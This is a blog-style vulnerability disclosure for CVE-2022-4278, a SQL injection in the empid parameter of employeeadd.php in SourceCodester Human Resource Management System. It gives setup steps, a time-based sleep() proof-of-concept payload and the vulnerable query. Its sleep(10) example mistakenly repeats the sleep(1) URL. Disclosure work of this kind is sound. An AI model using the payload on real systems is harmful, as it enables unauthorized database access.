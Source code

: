 ```yaml
---
title: "CVE-2022-4278: SourceCodester Human Resource Management System employeeadd.php SQL Injection"
author: tusnj
date: 2022-12-03 11:33:00 +0700
categories: [Blog, CVE]
tags: [CVE]
pin: true
math: true
mermaid: true
image:
  path: /assets/img/posts/CVE-2022-4278/sql-injection.jpg
  alt: Will change in future
---
```


## Introduction

Human Resource Management System is a web application that was developed in PHP and MySQL Database. It aims to provide an online automated platform for certain company employees' to manage or submit their leave applications. It has a pleasant user interface with some gradient color and uses Bootstrap and Responsee Framework for the page designs.

[CVE-2022-4278](https://www.cve.org/CVERecord?id=CVE-2022-4278) is a vulnerability classified as critical has been found in SourceCodester Human Resource Management System 1.0. Affected is an unknown function of the file /hrm/employeeadd.php. The manipulation of the argument empid leads to sql injection. This vulnerability is traded as CVE-2022-4278. It is possible to launch the attack remotely. Furthermore, there is an exploit available.

## Understanding

A vulnerability was found in SourceCodester Human Resource Management System 1.0. It has been rated as critical. This issue affects an unknown functionality of the file /hrm/employeeadd.php. The manipulation of the argument empid with an unknown input leads to a sql injection vulnerability. Using CWE to declare the problem leads to CWE-89. The software constructs all or part of an SQL command using externally-influenced input from an upstream component, but it does not neutralize or incorrectly neutralizes special elements that could modify the intended SQL command when it is sent to a downstream component. Impacted is confidentiality, integrity, and availability.

The weakness was published 12/03/2022 by Ngo Van Tu. It is possible to read the advisory at github.com. The identification of this vulnerability is CVE-2022-4278. Technical details as well as a public exploit are known. The attack technique deployed by this issue is T1505 according to MITRE ATT&CK.

## Affected

The product(s): https://www.sourcecodester.com/php/15740/human-resource-management-system-project-php-and-mysql-free-source-code.html

Affected product(s)/code base: https://www.sourcecodester.com/sites/default/files/download/oretnom23/hrm.zip

Affected component(s): /hrm/employeeadd.php

## Technical Details

### System Installation/Setup

1. Open your XAMPP Control Panel and start Apache and MySQL.
2. Extract the downloaded source code zip file.
3. Copy the extracted source code folder and paste it into the XAMPP's "htdocs" directory.
4. Browse the PHPMyAdmin in a browser. i.e. http://localhost/phpmyadmin
5. Create a new database named hrm_db.
6. Import the provided SQL file. The file is known as hrm_db.sql located inside the db folder.
7. Browse the Human Resource Management System in a browser. i.e. http://localhost/hrm/.

### Proof of Concept

Login as admin and go to http://localhost/hrm/employeeadd.php

Execute Payload SQLi with injection:

`/hrm/employeeadd.php?empid=1%27%20or%20sleep(1)%20--%20-`

The database will sleep 1 second before return data to the web application

![Payload SQLi with sleep(1)](/assets/img/posts/CVE-2022-4278/sqli-sleep-1.png)

In the other hand, execute payload sleep(10) will make database sleep 10 seconds before return data

`/hrm/employeeadd.php?empid=1%27%20or%20sleep(1)%20--%20-`

![Payload SQLi with sleep(10)](/assets/img/posts/CVE-2022-4278/sqli-sleep-10.png)

### Analysis with SQL log

We back to SQL log and see what exactly executed in the server.

The query `SELECT e.*,ss.StateId, cc.CountryId FROM employee e join city c on e.CityId=c.CityId join state ss on c.StateId ss.StateId join country cc on cc. CountryId=ss. CountryId where EmpId=<empid here>`

![My sql Logs](/assets/img/posts/CVE-2022-4278/mysql-log.png)

## CVE Reference

[https://www.cve.org/CVERecord?id=CVE-2022-4278](https://www.cve.org/CVERecord?id=CVE-2022-4278)
